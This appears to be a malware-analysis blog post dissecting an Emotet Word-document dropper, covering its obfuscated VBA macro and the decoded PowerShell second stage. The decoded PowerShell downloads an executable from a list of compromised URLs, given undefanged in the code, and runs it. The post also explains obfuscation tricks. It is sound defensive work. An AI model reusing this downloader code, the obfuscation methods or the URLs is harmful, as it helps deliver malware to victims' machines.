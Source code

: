 ```yaml
---
title:  "Anatomy of an Emotet Word Document dropper"
layout: post
---
```


This blog post presents an analysis of the Visual Basic macro contained in a Word doc samples that drops Emotet malware.



## Intro

Sample hash is `a9fe73484674696be756808e93f839be7157cd65995d8de9e67e40bf77c9b229`

[Link](https://www.virustotal.com/gui/file/a9fe73484674696be756808e93f839be7157cd65995d8de9e67e40bf77c9b229/detection) to Virus Total

![VTDetection](/assets/pics/2020-10-31/VT_detection.png "VT detection")

## First step
Instead of using tools like `oledump` or `olevba`, I went straight into analysing the doc inside a Windows 10 virtual machine and Microsoft Office Pro 2016.

Once opened the documents states that it was created with an old version of Office and that because of that macros should be activated ¯\\_(ツ)_/¯

![Open](/assets/pics/2020-10-31/doc_preview.png "Preview")

Upon inspecting macros in VBA Dev tab, we can see that it's heavily obfuscated.

![Obf](/assets/pics/2020-10-31/code_obfuscated.png "Obfuscation")

Note the presence of `Document_Open` function. The macro is executed as soon as you click Allow Content. Once executed, you only see a Powershell window popping up for a fraction of a second.

## De-obfuscation

After spending some time reading through the code in Form `Ykd6l9_zi2__37zjve`, I noticed that most of the code is just garbage code designed to bloat the file, confuse AVs, annoy people, etc...

Especially, the following snippet is repeated all over the file and does nothing, it can be removed.

```vb
   CiXQnDJBd = "pwYjWjkWqMLGO"
awUlmLRhHwj = Mid(CiXQnDJBd, 6, 2)
iATYEK = awUlmLRhHwj
IhfXtbz = "5kzblYaszWGS6C8wP"
CqAXzOw = Mid(IhfXtbz, 7, 2)
qGwwHwGRWwc = CqAXzOw
FjzwaUEc = "lR4v8TckukXnjZzYVazU7N0zURNjRB5 GkTc"
PhdRzEcmb = Mid(FjzwaUEc, 34, 1)
TXGWj = PhdRzEcmb
GOJAhhJQ = "TtpYhM8PRobn1z"
TNiODEzMPti = Mid(GOJAhhJQ, 12, 1)
SuLoW = TNiODEzMPti
wMKCEhZ = "qbGkg4sfPK7aDcv wSI763KTZI9Ocw"
StoqvC = Mid(wMKCEhZ, 4, 2)
MVqFdiDrZl = StoqvC
mRHDhUz = "C86dCiz9L1aqWb TCzEKEPQk4jaWNz4asUJRcSb"
mMdPn = Mid(mRHDhUz, 14, 2)
hjFXDTC = mMdPn
SCEHz = " FwJGjE2jwuVqatGL6fjRm8OlpWpdK O"
NujiUqzEvvd = Mid(SCEHz, 9, 2)
bdpoDPnYFoW = NujiUqzEvvd
wiVhdXmuM = "2jRUXp8LDdPp"
hNdzoTao = Mid(wiVhdXmuM, 10, 1)
YinaPinc = hNdzoTao
tijOoKE = "uiUJHIsW0heVrJqZ2Av"
DFzquY = Mid(tijOoKE, 11, 1)
ZzRGXsD = DFzquY
ADKczCz = "PIwbFGdbpAK"
MrlWLsJVb = Mid(ADKczCz, 7, 1)
PbpdzBhVhEz = MrlWLsJVb
kcavkHimhnl = "wuERbzzKZ4eaz1jrjk5r4vsnmcEL5hZ"
jTnHazsDJNo = Mid(kcavkHimhnl, 11, 1)
FFXqSfthA = jTnHazsDJNo
```

The bad actors use and abuse the fact that if a variable is not declared in VBA, the variable is silently ignored. In the following snippet, `Kq3e6z7gdybg6` resolves to nothing. So `Df9kbnm9eaon3` is equal to 's' (`Q1zrtzyq6us9a` is `90`)
```powershell
Df9kbnm9eaon3 = Kq3e6z7gdybg6 + Chr$(Q1zrtzyq6us9a + (25))
```

Another interesting trick is presented below.
```vb
E_kbz3s_b5rg6n = "2vhaghsghf2vhaghsghfw2vhaghsghfi2vhaghsghfnm2vhaghsghf2vhaghsghfgm2vhaghsghft2vhaghsghf2vhaghsghf" + Df9kbnm9eaon3 + "2vhaghsghf2vhaghsghf:2vhaghsghfw2vhaghsghfin2vhaghsghf2vhaghsghf32vhaghsghf22vhaghsghf_2vhaghsghf" + Ykd6l9_zi2__37zjve.O2a2ey1hmvf + "2vhaghsghfro2vhaghsghf2vhaghsghfce2vhaghsghfs2vhaghsghfs2vhaghsghf"
```

`Ykd6l9_zi2__37zjve` reference the Form, and `O2a2ey1hmvf` reference the `ComboBox` inside the form. The box is set to letter `P`.

![cbox](/assets/pics/2020-10-31/hidden_P.png "Hidden P")

Some elements inside `UserForm1` are useless, and some are used to retrieve parts of obfuscated strings, in order to rebuild then inside the code.

### Result
I am going to pass on describing the long and annoying process of de-obfuscating the code.

```vb
Function Entry()
    On Error Resume Next

    objString = "2vhaghsghf2vhaghsghfw2vhaghsghfi2vhaghsghfnm2vhaghsghf2vhaghsghfgm2vhaghsghft2vhaghsghf2vhaghsghf" + "s" + "2vhaghsghf2vhaghsghf:2vhaghsghfw2vhaghsghfin2vhaghsghf2vhaghsghf32vhaghsghf22vhaghsghf_2vhaghsghf" + "P" + "2vhaghsghfro2vhaghsghf2vhaghsghfce2vhaghsghfs2vhaghsghfs2vhaghsghf"
    objString_decoded = __DecodeObjString(objString)

    Set OLEObject = CreateObject(objString_decoded) ' --> winmgmts:win32_Process

    objString_decoded2 = objString_decoded + "tar" + "tu")
    objString_decoded3 = objString_decoded2 + "P" ' --> winmgmts:win32_ProcesstartuP

    Set Ydsu1vp_xnr8bd = _SetShowWindow(objString_decoded3)
    Jcsxtidm8cuwxfdg6n = Array(useless + "useless" + useless, useless, [OLEObject].Create(__DecodePowershell, useless, useless), useless + "useless")

End Function

Function _SetShowWindow(input)
    On Error Resume Next

    Set _SetShowWindow = CreateObject(input)
    [_SetShowWindow]. _
        showwindow = wdKeyEquals - wdKeyEquals

End Function

Function __DecodeObjString(input)
    On Error Resume Next

    tmpsplit = CleanString(input)
    ret = Split(tmpsplit, "2vhaghsghf")
    __DecodeObjStringtmp = [Join](ret, useless)
    __DecodeObjString = __DecodeObjStringtmp

End Function

Function __DecodePowershell()
    On Error Resume Next

    Set encodedPsPayload = CurrentDoc.InlineShapes.Item(1)
    __DecodePowershell = __DecodeObjString(encodedPsPayload.AlternativeText) ' Inside AltText when right click -> Picture

End Function
```

The strings are de-obfuscated by splitting them following the same pattern.
```vb
ret = Split(tmpsplit, "2vhaghsghf")
```

The final `powershell` payload is hidden inside the pictures presented to the user when opening the document, and is de-obfuscated by splitting the string with `2vhaghsghf`
![Payload](/assets/pics/2020-10-31/hidden_payload_AltText.png "Powershell Payload")


The final macro payload can be reduced to the following snippet.
```vb
Set OLEObject = CreateObject("winmgmts:win32_Process")
[OLEObject].Create(__DecodePowershell, null, null)
```

### _SetShowWindow
This function is supposed to set `_SetShowWindow` option of `winmgmts:win32_ProcesstartuP` to `0`, but it doesn't seem to work.

## Powershell
The `powershell` payload is `base64` encoded. Interestingly, before encoding to `base64` a `null` (\x00) char is placed between each characters of the powershell source code. The `base64` decode function of powershell, `[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String($BASE64))` treats null char as **space**. So the actual decoded payload is a valid powershell source code.

```powershell
> [Text.Encoding]::Utf8.GetString([Convert]::FromBase64String("QQBB"))
> A B
```

```python
>>> decodedBytes = base64.urlsafe_b64decode("QQBB")
>>> str(decodedBytes, "utf-8")
'A\x00A'
```

Strings and function calls are obfuscated using different techniques. Powershell is not really case sensitive for function calls.

```powershell
[Net.ServicePointManager]::"sE`c`UrI`Ty`prot`ocOL" =(('tl'+'s')+('1'+'2,t')+'l'+('s1'+'1,tl')+s');

$Oht57tr=.('new-ob'+'j'+'et')nET.weBclIEnt;
```

### Decoded powershell payload

Decoded, de-obfuscated and cleaned.
```powershell
.('new-item')$eNv:uSErpROFile\PfnoyhG\w2lwD2_\ -itemtype DIREcTORy;

[Net.ServicePointManager]::"sEcUrITyprotocOL"='tls12,tls11,tls');

$Ra85g8d=$env:userprofile+(('BFPfnoyhglBFW2lwd2_lBF')."repLace"(([CHaR]108+[CHaR]66+[CHaR]70,[StrIng][CHaR]92))+'Pcy7xg6'+('.exe'));

$Oht57tr=.('new-objet')nET.weBclIEnt;

$U27o44j=(('https://blueyellowshop.com/wp-includes/mihae8A/*http://kingsalmanqurn.com/wp-content/wuPyeI/*https://dagranitegiare.com/wp-admin/Z21r6R/*http://acontarborreguitos.com/acontarborreguitos/I/*http://atenaclinicaesegurancadotrabalho.com/cgi-bin/NlMH/*http://digitalbazar.com/wp-admin/RVEzrK/*https://byc-center.com/wp-admin/Z4r/'))."sPlit"([char]42);

foreach($Hz7jbau in $U27o44j)
{
    try
        {
        $Oht57tr."DownLOA`DFILE"($Hz7jbau,$Ra85g8d);
        $X2iepix=('Fvoxr2g'));
        If((.('Get-Item')$Ra85g8d)."LeNGTh" -ge 20136)
            { 
                & ('Invoke-Item')($Ra85g8d);
                break;
            }
        } 
    catch{}
}

```

## IOCs

`blueyellowshop[.]com`   
`kingsalmanqurn[.]com`   
`dagranitegiare[.]com`   
`acontarborreguitos[.]com`   
`atenaclinicaesegurancadotrabalho[.]com`   
`digitalbazar[.]com`   
`byc-center[.]com`   













